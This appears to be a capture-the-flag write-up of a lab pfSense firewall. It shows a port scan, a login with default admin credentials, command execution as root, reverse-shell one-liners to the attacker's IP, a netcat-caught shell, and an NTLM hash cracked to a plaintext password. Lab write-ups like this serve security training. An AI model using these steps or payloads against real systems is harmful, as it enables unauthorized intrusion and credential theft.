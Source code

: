 

# recon
```console
$ sudo ./pymap.py -t 10.200.11.138 -A
bibo318@parrot:~$ sudo /opt/pymap.py -t 10.200.11.138
                                                    
@@@@@@@   @@@ @@@  @@@@@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@  @@@ @@@  @@@@@@@@@@@  @@@@@@@@  @@@@@@@@  
@@!  @@@  @@! !@@  @@! @@! @@!  @@!  @@@  @@!  @@@  
!@!  @!@  !@! @!!  !@! !@! !@!  !@!  @!@  !@!  @!@  
@!@@!@!    !@!@!   @!! !!@ @!@  @!@!@!@!  @!@@!@!   
!!@!!!      @!!!   !@!   ! !@!  !!!@!!!!  !!@!!!    
!!:         !!:    !!:     !!:  !!:  !!!  !!:       
:!:         :!:    :!:     :!:  :!:  !:!  :!:       
 ::          ::    :::     ::   ::   :::   ::       
 :           :      :      :     :   : :   :        
Author: kuroHat
Github: https://github.com/gu2rks


[+] Port scanning...
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
[+] Enumerating open ports...

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-title: Did not follow redirect to https://10.200.11.138/
|_https-redirect: ERROR: Script execution failed (use -d to debug)


PORT   STATE SERVICE VERSION
53/tcp open  domain  (generic dns response: REFUSED)
SF-Port53-TCP:V=7.80%I=7%D=11/2%Time=5FA07007%P=x86_64-pc-linux-gnu%r(DNSS
SF:tatusRequestTCP,E,"\0\x0c\0\0\x90\x05\0\0\0\0\0\0\0\0");


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|_  4096 38:04:a0:a1:d0:e6:ab:d9:7d:c0:da:f3:66:bf:77:15 (RSA)


PORT    STATE SERVICE VERSION
443/tcp open  https?
```
- http -> redirect to https -> **pfSense**

## web 443 pfSense
- admin credential `admin:pfsense` got from googling default credential [link](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html)

Most of the time admin panel have a fuction that allow admin to execute a command on the server. I guess pfsense might offer it to. I then google `pfsense execute command on web` and it give me this [link](https://docs.netgate.com/pfsense/en/latest/diagnostics/command-prompt.html), BINGO!!

So let visit Diagnostics -> command-prompt. It seem like it allows us to excetue both php+shell commad. Let try if php work by executing 
`system('ping <kali_ip> -c 5');`. On kali run `tcpdump` to capture some `icmp` packets.
```console
bibo318@parrot:~$ sudo tcpdump -i tun0 icmp
18:30:36.545831 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 2, length 64
18:30:36.545856 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 2, length 64
18:30:37.579047 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 3, length 64
18:30:37.579096 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 3, length 64
18:30:38.695756 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 4, length 64
18:30:38.695812 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 4, length 64
```
And ofc, it works!! btw, there is no need to do this but I just try to make it as a habbit. some time you can see result from executing code, this is good way to try if it work. I learned from **IPPSEC**.

Also, we can execute `Execute Shell Command` let try `id`
```
uid=0(root) gid=0(wheel) groups=0(wheel)
```
Wow, pfsense if run as root... what a luck. let spawn a reverse shell! I tired different reverse shell from [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)
```
bash -i >& /dev/tcp/10.50.9.18/6969 0>&1
php -r '$sock=fsockopen("10.50.9.18",6969);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.50.9.18",6969);system("/bin/sh -i <&3 >&3 2>&3");'
```
none of the above works. So I use php-reverse-shell.php which is pre-install in kali. Just copy+paste the code `Execute PHP Commands`. On kali
```console
[10.50.9.18]-bibo318@parrot:~/THM/throwback$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.50.9.18] from (UNKNOWN) [10.200.11.138] 64182
FreeBSD THROWBACK-FW01.THROWBACK.local 11.3-STABLE FreeBSD 11.3-STABLE #239 885b1ed26b6(factory-RELENG_2_4_5): Tue Jun  2 17:53:42 EDT 2020     root@buildbot1-nyi.netgate.com:/build/factory-crossbuild-245-amd64/obj/amd64/kkVaWThR/build/factory-crossbuild-245-amd64/sources/FreeBSD-src/sys/pfSense  amd64
11:43PM  up 27 mins, 2 users, load averages: 0.50, 0.55, 0.49
USER       TTY      FROM                                      LOGIN@  IDLE WHAT
root       u0       -                                        11:18PM    25 /bi 
root       v0       -                                        11:18PM    25 /bi 
uid=0(root) gid=0(wheel) groups=0(wheel)
sh: can't access tty; job control turned off
```
now go grab root flag.


There are 1 more flag on this firewall. from THM flag submission said *log flag*. 
```console
# pwd
/
# cd /var/log
# ls
dhcpd.log
dmesg.boot
filter.log
flag.txt
gateways.log
ipsec.log
l2tps.log
lastlog
login.log
nginx
nginx.log
ntp
ntpd.log
openvpn.log
poes.log
portalauth.log
ppp.log
relayd.log
resolver.log
routing.log
system.log
userlog
utx.lastlogin
utx.log
vpn.log
watchdogd.log
wireless.log
```
there are 2 interesting logs here
1. flag.txt
2. login.log
let `cat` it then
```console
# cat flag.txt
TBH{flag}
# cat login.log
Last Login 8/9/2020 15:51 -- HumphreyW:1c13639dba96c7b53d26f7d00956a364
```
Using [crackstation](https://crackstation.net/) to crack the hash
`1c13639dba96c7b53d26f7d00956a364	NTLM	securitycenter`